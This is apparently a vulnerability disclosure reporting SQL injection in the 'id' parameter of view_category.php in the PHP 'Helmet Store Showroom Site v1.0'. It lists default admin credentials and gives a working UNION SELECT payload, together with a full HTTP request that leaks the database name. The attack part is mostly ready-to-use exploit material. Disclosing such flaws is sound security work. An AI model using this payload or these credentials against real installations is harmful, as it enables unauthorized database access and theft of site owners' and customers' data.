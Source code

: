 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: HMHYHM

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/admin/categories/view_category.php?id=

Vulnerability location: /hss/admin/categories/view_category.php?id=,id

dbname =hss_db,length=6

[+] Payload: /hss/admin/categories/view_category.php?id=-5%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id


```sql
GET /hss/admin/categories/view_category.php?id=-5%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/204069753-238aa0d1-3eef-4ef1-a4bb-df2241bd433e.png)

